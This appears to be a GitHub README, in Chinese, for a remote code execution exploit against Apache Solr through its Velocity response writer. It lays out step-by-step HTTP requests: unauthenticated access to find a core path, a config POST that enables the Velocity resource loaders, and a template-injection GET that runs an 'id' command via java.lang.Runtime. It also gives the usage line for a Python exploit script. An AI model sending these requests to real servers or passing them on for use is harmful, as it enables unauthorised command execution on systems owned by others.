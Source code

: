 # Apache Solr rce

### 复现过程

step1:
通过Solr未授权访问，访问Core Admin，获取Path
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031164421.png)

step2:
修改配置
```
POST /solr/(第一步获取到的Path)/config HTTP/1.1
Host: ip:8983
User-Agent: xxx
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165408.png)

step3:
执行命令
```
GET /solr/(第一步获取到的Path)/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: xxx:8983
User-Agent: xxx
```
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031165755.png)

### python exp

使用方法：
python solr_rce.py url "command"
![Image](https://github.com/Eth4nHunt/Apache-Solr-RCE/blob/master/images/20191031170416.png)

